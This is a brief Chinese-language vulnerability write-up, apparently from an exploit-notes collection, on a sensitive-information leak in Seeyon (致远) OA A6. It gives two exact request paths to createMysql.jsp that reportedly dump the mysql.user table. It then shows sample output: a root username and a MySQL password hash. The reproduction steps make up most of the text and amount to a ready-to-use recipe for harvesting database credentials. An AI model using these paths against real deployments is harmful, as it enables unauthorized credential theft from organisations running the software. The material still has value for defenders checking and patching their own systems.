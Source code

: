 # 致远OA A6 敏感信息泄露（一）

### 一、漏洞简介

该漏洞泄露了数据库用户的账号，密码hash。访问该文件直接执行了Select * from mysql.user;并回显

### 二、漏洞影响

致远OA A6

### 三、复现过程

漏洞位置:


```bash
http://url/yyoa/createMysql.jsp

http://url/yyoa/ext/createMysql.jsp
```

回显内容：


```bash
root

*1532B21FE550E115F113DAA9A26D0EEEEF8DEDC7
```